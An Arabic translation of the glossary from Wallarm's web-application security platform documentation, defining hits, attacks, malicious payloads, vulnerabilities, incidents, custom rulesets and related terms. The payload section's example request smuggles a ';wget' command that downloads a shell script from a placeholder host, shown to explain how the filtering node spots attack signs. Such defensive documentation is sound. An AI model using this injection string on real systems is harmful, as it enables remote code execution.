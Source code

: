 # قاموس

القاموس يغطي الكيانات الأساسية لمنصة Wallarm لتزويدك بفهم أفضل للمنصة.

## الضربة

الضربة هي طلب ضار متسلسل (الطلب الضار الأصلي وبيانات وصفية أضيفت بواسطة العقدة الفلترة)، مثلاً:

![مثال على الضربة](images/user-guides/events/analyze-attack-raw.png)

[تفاصيل عن معايير الضربات](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## الهجوم

الهجوم هو ضربة واحدة أو عدة ضربات مجموعة حسب الخصائص التالية:

* نفس نوع الهجوم، الباراميتر الذي يحتوي على الحمولة الضارة، والعنوان الذي أُرسلت إليه الضربات. قد تأتي الضربات من نفس العنوان IP أو عناوين IP مختلفة ولها قيم مختلفة للحمولات الضارة ضمن نوع هجوم واحد.

    هذه طريقة تجميع الضربات الأساسية وتنطبق على جميع الضربات.

* نفس عنوان IP المصدر إذا تم تمكين [تجميع الضربات حسب عنوان IP المصدر](user-guides/events/analyze-attack.md#grouping-of-hits). قيم باراميترات الضربات الأخرى يمكن أن تختلف.

    هذه طريقة تجميع الضربات تعمل لجميع الضربات باستثناء تلك المنتمية لأنواع الهجوم Brute force، Forced browsing، BOLA (IDOR)، Resource overlimit، Data bomb و Virtual patch.

    إذا تم تجميع الضربات بهذه الطريقة، فإن زر [**وضع علامة كإيجابي زائف**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) وخيار [التحقق النشط](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) غير متاحين للهجوم.

طرق تجميع الضربات المذكورة لا تستبعد بعضها البعض. إذا كانت الضربات لها خصائص كلا الطريقتين، فإنها جميعًا تُجمع إلى هجوم واحد.

مثال على هجوم يضم ضربة واحدة:

![هجوم بضربة واحدة](images/glossary/attack-with-one-hit-example.png)

مثال على هجوم يشمل العديد من الضربات:

![هجوم بعدة ضربات](images/glossary/attack-with-several-hits-example.png)

## الحمولة الضارة

جزء من الطلب الأصلي يحتوي على العناصر التالية:

* علامات الهجوم التي تم اكتشافها في طلب. إذا تم اكتشاف عدة علامات هجوم تميز نفس نوع الهجوم في طلب، فسيتم تسجيل العلامة الأولى فقط في الحمولة.
* سياق علامة الهجوم. السياق هو مجموعة من الرموز التي تسبق وتغلق علامات الهجوم المكتشفة. بما أن طول الحمولة محدود، يمكن حذف السياق إذا كانت علامة الهجوم بطول الحمولة الكامل.

مثال:

* الطلب:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* الحمولة الضارة:

    ```bash
    ;wget+http://s
    ```

    في هذه الحمولة، `;wget+` هي علامة الهجوم [RCE](attacks-vulns-list.md#remote-code-execution-rce) وجزء آخر من الحمولة هو سياق علامة الهجوم.

بما أن علامات الهجوم لا تُستخدم للكشف عن [الهجمات السلوكية](about-wallarm/protecting-against-attacks.md#behavioral-attacks)، فإن الطلبات المُرسلة كجزء من الهجمات السلوكية تحتوي على حمولات فارغة.

## الثغرة الأمنية
الثغرة الأمنية هي خطأ ناتج عن الإهمال أو نقص الإعلام عند بناء أو تنفيذ تطبيق الويب والذي يمكن أن يؤدي إلى مخاطر أمن المعلومات.

مخاطر أمن المعلومات هي:

* الوصول غير المصرح به للبيانات؛ على سبيل المثال، الوصول لقراءة وتعديل بيانات المستخدم.
* عدم الخدمة.
* فساد البيانات وغيرها.

يمكن استخدام حركة المرور على الإنترنت للكشف عن الثغرات الأمنية، وهو ما تقوم به Wallarm، من بين وظائف أخرى.

## الحادث الأمني

الحادث الأمني هو حدوث استغلال الثغرة الأمنية. الحادث هو [هجوم](#attack) يستهدف ثغرة مؤكدة.

الحادث، تمامًا مثل الهجوم، هو كيان خارجي لنظامك وهو خاصية للإنترنت الخارجي، وليس النظام نفسه. على الرغم من أن الهجمات المستهدفة للثغرات الأمنية القائمة هي أقلية، إلا أنها ذات أهمية قصوى من حيث أمن المعلومات. Wallarm تكتشف تلقائيًا الهجمات المستهدفة للثغرات الأمنية القائمة وتعرضها ككائن منفصل - الحادث.

## الحلق الدائري
الحلق الدائري هو هيكل بيانات يستخدم حاوية ثابتة الحجم كما لو كانت متصلة نهاية بنهاية.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Circular_buffer).

## مجموعة القواعد الخاصة (المصطلح السابق هو LOM)

مجموعة القواعد الخاصة هي مجموعة من قواعد الأمان المترجمة التي تقوم عقد Wallarm بتنزيلها من السحابة Wallarm.

تتيح لك القواعد الخاصة إعداد قواعد فردية لمعالجة الحركة، مثلاً:

* إخفاء بيانات حساسة قبل التحميل إلى سحابة Wallarm
* إنشاء مؤشرات للهجوم بناءً على regexp
* تطبيق تصحيح افتراضي يحجب الطلبات التي تستغل ثغرة نشطة
* تعطيل اكتشاف الهجوم في طلبات معينة، وما إلى ذلك.

مجموعة القواعد الخاصة ليست فارغة بشكل افتراضي، تحتوي على القواعد التي تم إنشاؤها لجميع العملاء المسجلين في السحابة، مثلاً قاعدة وضع الفلترة بالقيمة من علامة التبويب [**الإعدادات → العام**](admin-en/configure-wallarm-mode.md#setting-up-the-general-filtration-rule-in-wallarm-console).

[تفاصيل أكثر على مجموعات القواعد الخاصة](user-guides/rules/rules.md)

## الطلب غير صالح
طلب تم فحصه بواسطة عقدة الفلترة ولا يتطابق مع قواعد LOM.

## الوكيل العكسي
الوكيل العكسي هو نوع من خوادم الوكيل التي تسترجع الموارد نيابة عن عميل من خادم وتعيد الموارد إلى العميل كما لو كانت أصلت من خادم الويب نفسه.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Reverse_proxy).

## سلطة التصديق
سلطة التصديق هي كيان يصدر شهادات رقمية.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Certificate_authority).